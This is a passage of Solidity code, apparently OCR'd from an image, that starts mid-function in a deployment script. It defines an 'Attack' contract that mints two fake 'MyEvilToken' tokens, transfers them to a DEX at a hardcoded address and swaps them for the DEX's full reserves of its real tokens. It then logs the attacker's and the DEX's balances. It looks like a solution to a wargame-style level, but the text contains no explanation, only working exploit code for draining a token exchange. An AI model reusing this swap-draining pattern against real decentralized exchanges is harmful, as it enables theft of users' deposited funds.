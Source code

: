 ```javascript
        Attack attack = new Attack();
        
        // dex.approve(address(attack), 10);

        attack.exploit();

        console.log("Attacker balance in TOKEN1 ", dex.balanceOf(token1, address(attack)));
        console.log("Attacker balance in TOKEN2 ", dex.balanceOf(token2, address(attack)));

        console.log("DEX balance in TOKEN1 ", dex.balanceOf(token1, address(dex)));
        console.log("DEX balance in TOKEN2 ", dex.balanceOf(token2, address(dex)));
        vm.stopBroadcast();

    }
}

contract Attack{
    Dex public dex = Dex(0xd8c665Dac001720A9efa0f478e63CABc5D64E9e9);
    address token1 = dex.token1();
    address token2 = dex.token2();

    MyEvilToken myToken1;
    MyEvilToken myToken2;

    constructor(){
        myToken1 = new MyEvilToken();
        myToken2 = new MyEvilToken();
    }
    function exploit() public{
        // IERC20(token1).transferFrom(0x699BceEbD59a5b52bB586C737cD7ba636f3Fe602, address(this), 10);
        // IERC20(token2).transferFrom(0x699BceEbD59a5b52bB586C737cD7ba636f3Fe602, address(this), 10);
        
        myToken1.transfer(address(dex), 100);
        myToken2.transfer(address(dex), 100);


        myToken1.approve(address(dex), type(uint64).max);
        myToken2.approve(address(dex), type(uint64).max);

        dex.swap(address(myToken1), token1, dex.balanceOf(token1, address(dex)));
        dex.swap(address(myToken2), token2, dex.balanceOf(token2, address(dex)));
        
    }
}

contract MyEvilToken is ERC20("MyEVILToken", "EVIL"){
    constructor(){
        _mint(msg.sender, 10000);
    }
}
```
